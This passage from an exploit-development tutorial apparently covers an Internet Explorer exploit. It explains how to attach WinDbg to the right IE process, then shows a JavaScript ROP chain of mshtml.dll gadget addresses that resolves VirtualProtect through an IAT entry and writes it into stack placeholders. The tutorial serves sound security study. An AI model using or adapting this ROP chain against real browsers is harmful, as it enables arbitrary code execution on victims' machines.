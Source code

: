 <img src="{{ site.url }}{{ site.baseurl }}/images/browser36.png" alt="">

This, thus far, has been unbeknownst to us, as we have been leveraging WinDbg in a postmortem fashion. However, we can get around this by debugging just simply waiting until the third process is created! Each time we have executed the script, we have had a prompt to ask us if we want to allow JavaScript. We will use this as a way to debug the correct process. First, open up Internet Explorer how you usually would. Secondly, before attaching your debugger, open the exploit script in Internet Explorer. Don't click on "Click here for options...".

<img src="{{ site.url }}{{ site.baseurl }}/images/browser37.png" alt="">

This will create a third process, and will be the last process listed in WinDbg under "System order"

<img src="{{ site.url }}{{ site.baseurl }}/images/browser38.png" alt="">

Note that you do not need to leverage Process Hacker each time to identify the process. Open up the exploit, and don't accept the prompt yet to execute JavaScript. Open WinDbg, and attach to the _very last_ Internet Explorer process.

Now that we are debugging the correct process, we can actually set some breakpoints to verify everything is in tact. Let's set a breakpoint on "jump" over the parameter placeholders for our ROP chain and execute our POC.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser39.png" alt="">

Great! Stepping through the instruction(s), we then finally land into our `90909090` "ROP gadget", which symbolizes where our "meaningful" ROP chain will start, and we can see we have "jumped" over the parameter placeholders!

<img src="{{ site.url }}{{ site.baseurl }}/images/browser40.png" alt="">

From our current execution state, we know that ECX/EAX contain a value near the stack. The distance between the first parameter placeholder, which is an IAT entry which points to `kernel32!VirtualProtectStub`,  is `0x18` bytes away from the value in ECX. 

<img src="{{ site.url }}{{ site.baseurl }}/images/browser41.png" alt="">

Our first goal will be to take the value in ECX, increase it by `0x18`, perform two dereference operations to first dereference the pointer on the stack to obtain the actual address of the IAT entry, and then to dereference the actual IAT entry to get the address of `kernel32!VirtualProtect`. This can be seen below.

```js
// Arbitrary write gadgets to change placeholders to valid function arguments
rop += "\udfee\u74e7";                     // add eax, 0x18 ; ret (74e7dfee) (mshtml.dll) EAX is 0x18 bytes away from the parameter placeholder for VirtualProtect
rop += "\udfbc\u74db";                     // mov ecx, eax ; call edx (74dbdfbc) (mshtml.dll) Place EAX into ECX (EDX still contains our COP gadget)
rop += "\u9090\u9090";                     // Padding to compensate for previous COP gadget
rop += "\u9090\u9090";                     // Padding to compensate for previous COP gadget
rop += "\uf5c9\u74cb";                     // mov eax, dword [eax] ; ret (74cbf5c9) (mshtml.dll) Dereference the stack pointer offset containing the IAT entry for VirtualProtect
rop += "\uf5c9\u74cb";                     // mov eax, dword [eax] ; ret (74cbf5c9) (mshtml.dll) Dereference the IAT entry to obtain a pointer to VirtualProtect
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for VirtualProtect
````
